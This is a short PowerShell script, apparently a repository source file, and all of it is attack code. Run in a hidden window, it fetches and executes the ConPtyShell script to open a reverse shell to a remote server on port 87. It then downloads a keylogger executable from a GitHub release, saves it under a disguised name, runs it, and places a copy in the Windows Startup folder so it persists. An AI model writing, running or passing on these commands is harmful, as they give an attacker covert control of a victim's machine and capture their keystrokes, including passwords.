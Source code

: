 powershell -WindowStyle Hidden -Command "IEX (IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell (Resolve-DnsName jangosserver.eu).IPAddress 87"

Invoke-WebRequest -Uri "https://github.com/Jango47/reverseShell/releases/download/keylogger/keylogger.exe" -OutFile "$env:LOCALAPPDATA\bezopasno.exe"

& "$env:LOCALAPPDATA\bezopasno.exe"

Invoke-WebRequest -Uri "https://github.com/Jango47/reverseShell/releases/download/keylogger/keylogger.exe" -OutFile "$env:LOCALAPPDATA\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\bezopasno.exe"

& "$env:LOCALAPPDATA\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\bezopasno.exe"
